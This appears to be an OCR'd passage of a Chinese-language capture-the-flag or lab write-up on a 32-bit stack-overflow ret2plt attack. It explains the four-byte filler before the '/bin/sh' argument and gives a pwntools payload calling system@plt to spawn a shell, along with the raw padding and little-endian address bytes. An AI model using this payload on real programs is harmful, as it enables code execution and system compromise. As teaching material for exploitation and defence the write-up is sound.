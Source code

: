 放行：（F9）

对了直接使用system函数就不需要额外加4字节内容，直接后接字符串地址即可，如果采用的是11 86 04 08，就说明我们使用的是system函数，采用plt也就是：

![image-20240422213300821](${images}/image-20240422213300821.png)

则需要额外输入4个字节内容

为什么会加p32(4)，我们看一下call system@plt的调用过程：

call 指令一般是这样的：

```
push ip					;执行system@got之后的返回地址
jmp system@got
```

那么在跳转之前会将栈中一个4字节的内容作为eip的地址推入，然后esp-4,然后才跳转到system的地址，此时才是执行以下的操作:

```
push    edx             ; command
mov     ebx, eax
call    real_system
```

这样command才正式被推入，因此这就是额外输入一个4字节垃圾数据的原因了，那么这里我们就可以输入main函数的地址作为填充也可以，这样system返回后会再次运行main函数，这对构建gadgets链有帮助。

那么开始攻击：

放置好恰当的断点：

ASCII输入offset数的字符：

hex栏输入小端序化地址：
输入4个随便字节数据:

输入/bin/sh地址：

有两个合法的地址：

8720

9720

挑一个用：

我选择8720

```
payload = b'a' * offset + p32(system_plt) + p32(4) + p32(bin_sh_addr)
```

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```
60 84 04 08
```

```
61 61 61 61
```
